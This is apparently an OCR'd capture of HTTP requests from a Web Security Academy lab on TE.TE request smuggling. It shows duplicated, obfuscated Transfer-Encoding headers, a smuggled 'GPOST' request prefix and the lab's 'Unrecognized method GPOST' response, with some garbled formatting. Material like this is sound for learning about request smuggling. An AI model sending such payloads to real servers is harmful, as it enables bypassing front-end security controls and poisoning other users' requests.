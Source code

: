 ##### REQUESTS:

---

POST / HTTP/1.1
Host: ac631f891e4c27dfc10543dc0035006d.web-security-academy.net
Cookie: session=v1XJsTUeCJ99lQv3ZLAObLuqPkDG5hzv
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked
Transfer-encoding: identity

3
x=y
0

---

>`POST / HTTP/1.1
>`Host: ac631f891e4c27dfc10543dc0035006d.web-security-academy.net
  `Cookie: session=v1XJsTUeCJ99lQv3ZLAObLuqPkDG5hzv
>`Content-Type: application/x-www-form-urlencoded
>`Content-length: 12
>`Transfer-Encoding: chunked
>`Transfer-encoding: identity
>`3
>`x=y
>`5e
>`GPOST / HTTP/1.1
>`Content-Type: application/x-www-form-urlencoded
>`Content-Length: 15
>`x=1
>`0
---

POST / HTTP/1.1
Host: ac631f891e4c27dfc10543dc0035006d.web-security-academy.net
Cookie: session=v1XJsTUeCJ99lQv3ZLAObLuqPkDG5hzv
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked
Transfer-encoding: identity

3
x=y
0

---


#####  RESPONSE:
"Unrecognized method GPOST"

---
